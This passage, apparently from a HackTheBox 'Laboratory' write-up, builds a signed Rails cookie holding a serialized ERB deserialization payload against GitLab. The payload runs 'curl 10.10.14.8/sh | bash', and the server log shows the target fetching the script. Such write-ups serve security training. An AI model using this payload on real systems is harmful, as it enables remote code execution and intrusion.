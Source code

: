     
    
    irb(main):006:0> depr = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "@result", ActiveSupport::Deprecation.new)
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
    => ""
    irb(main):007:0> cookies.signed[:cookie] = depr
    DEPRECATION WARNING: @result is deprecated! Call result.is_a? instead of @result.is_a?. Args: [Hash] (called from irb_binding at (irb):7)
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
      % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                     Dload  Upload   Total   Spent    Left  Speed
      0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0curl: (7) Failed to connect to 10.10.14.8 port 80: Connection refused
    => ""
    

Now print the payload:

    
    
    irb(main):008:0> puts cookies[:cookie]
    BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0Ljgvc2ggfCBiYXNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--05460c0d9545ac9d886594b7251a19811d91d6be
    => nil
    

#### Send Payload

I’ll start a Python webserver, and use `curl` to send the payload. I need `-k`
to ignore the invalid certificate:

    
    
    oxdf@parrot$ curl -k https://git.laboratory.htb/users/sign_in --cookie "experimentation_subject_id=BAhvOkBBY3RpdmVTdXBwb3J0OjpEZXByZWNhdGlvbjo6RGVwcmVjYXRlZEluc3RhbmNlVmFyaWFibGVQcm94eQk6DkBpbnN0YW5jZW86CEVSQgs6EEBzYWZlX2xldmVsMDoJQHNyY0kiWyNjb2Rpbmc6VVRGLTgKX2VyYm91dCA9ICsnJzsgX2VyYm91dC48PCgoIGBjdXJsIDEwLjEwLjE0Ljgvc2ggfCBiYXNoYCApLnRvX3MpOyBfZXJib3V0BjoGRUY6DkBlbmNvZGluZ0l1Og1FbmNvZGluZwpVVEYtOAY7CkY6E0Bmcm96ZW5fc3RyaW5nMDoOQGZpbGVuYW1lMDoMQGxpbmVub2kAOgxAbWV0aG9kOgtyZXN1bHQ6CUB2YXJJIgxAcmVzdWx0BjsKVDoQQGRlcHJlY2F0b3JJdTofQWN0aXZlU3VwcG9ydDo6RGVwcmVjYXRpb24ABjsKVA==--05460c0d9545ac9d886594b7251a19811d91d6be"
    ...[snip]...
    

Immediately at the webserver, there’s a request from Laboratory:

    
    
    oxdf@parrot$ sudo python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.216 - - [07/Mar/2021 04:55:55] code 404, message File not found
    10.10.10.216 - - [07/Mar/2021 04:55:55] "GET /sh HTTP/1.1" 404 -
    